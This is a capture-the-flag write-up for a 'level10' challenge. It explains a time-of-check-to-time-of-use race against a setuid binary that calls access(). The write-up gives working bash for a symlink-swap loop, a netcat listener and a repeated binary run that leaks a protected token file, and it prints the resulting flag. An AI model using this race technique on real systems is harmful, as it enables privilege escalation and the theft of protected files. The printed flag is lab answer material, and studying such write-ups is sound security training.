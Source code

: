 ## level10

1. Check files in current working directory (home dir)
    - `-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10`
    - `-rw-------  1 flag10 flag10     26 Mar  5  2016 token`

Using `strings` on the binary reveals a connection to the port `6969` (`Connecting to %s:6969 ..`)

We can send indeed pretty much any file, except for the `token` file.

But, using `nm -Dgu ./level10` reveals the usage of the function `access` (used to check if we have read permissions on a file).

`access` is known for being vulnerable to a TOCTOU (Time Of Check to Time Of Use) attack.

Exploit explanation :

1. Create a dummy file in `/tmp/dummy`
2. Create a symlink to the `token` file to `/tmp/race_cond`
3. Run `./level10` binary in a background loop (using another ssh connection or a tmux session)
4. Swap the symlink to the `token` file to the `dummy` file back and forth in a loop
5. Wait until the binary checks for the permissions of the `/tmp/dummy` file, and then the file gets swapped to the `token` file, and the binary reads it and sends it to the server.

### Setup of the exploit

```bash
touch /tmp/dummy
ln -s ~/token /tmp/race_cond
```

### Running the netcat server

On a tmux window :
```bash
nc -kl 6969 # -k : keep listening
```

### Swapping loop

On another tmux window :

```bash
while true; do ln -sf /tmp/dummy /tmp/race_cond; ln -sf ~/token /tmp/race_cond; done
```

### Running the binary

And in a last tmux window :

```bash
while true; do ./level10 /tmp/race_cond 127.0.0.1; done
```

And finally, we get the flag `woupa2yuojeeaaed06riuj63c`